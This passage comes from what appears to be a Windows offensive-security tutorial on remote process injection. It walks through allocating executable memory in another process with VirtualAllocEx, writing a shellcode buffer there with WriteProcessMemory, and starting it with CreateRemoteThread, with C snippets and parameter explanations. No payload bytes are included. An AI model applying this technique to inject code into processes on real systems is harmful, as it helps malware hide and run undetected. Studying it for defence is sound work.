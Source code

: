 ```c
/*
LPVOID VirtualAllocEx(
  [in]           HANDLE hProcess,
  [in, optional] LPVOID lpAddress,
  [in]           SIZE_T dwSize,
  [in]           DWORD  flAllocationType,
  [in]           DWORD  flProtect
); */
pAddress = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_EXECUTE_READWRITE);
```

As you might have noticed, this is very similar to the  [VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) function , only that we are provided a process handle in which we want to allocate the virtual memory.

#### 3. Writing payload to allocated Memory

We can use [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) function to write inside a process memory (since I have used memcpy earlier, I'll use [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) here).

```c
/* BOOL WriteProcessMemory(
  [in]  HANDLE  hProcess, 
  [in]  LPVOID  lpBaseAddress,
  [in]  LPCVOID lpBuffer,
  [in]  SIZE_T  nSize,
  [out] SIZE_T  *lpNumberOfBytesWritten
); */
WriteProcessMemory(hProcess, pAddress, shellcode, sizeof(shellcode), 0);
```

* <mark style="color:purple;">hProcess</mark> being Process Handle.
* <mark style="color:purple;">lpBaseAddress</mark> is the starting (base) of the Address where we want to write.
* <mark style="color:purple;">lpBuffer</mark> is the buffer(payload) which we want to write.
* <mark style="color:purple;">nSize</mark> is the size of the buffer.
* <mark style="color:purple;">lpNumberOfBytesWritten</mark> is the bytes already written, 0 since we haven't written anything.

#### 4. Creating a Remote Thread to execute our Payload

We have now written our payload into the memory space of the safe process, now we can just create a remote thread to run our payload using [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread).

```c
/* HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
); */
hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
```
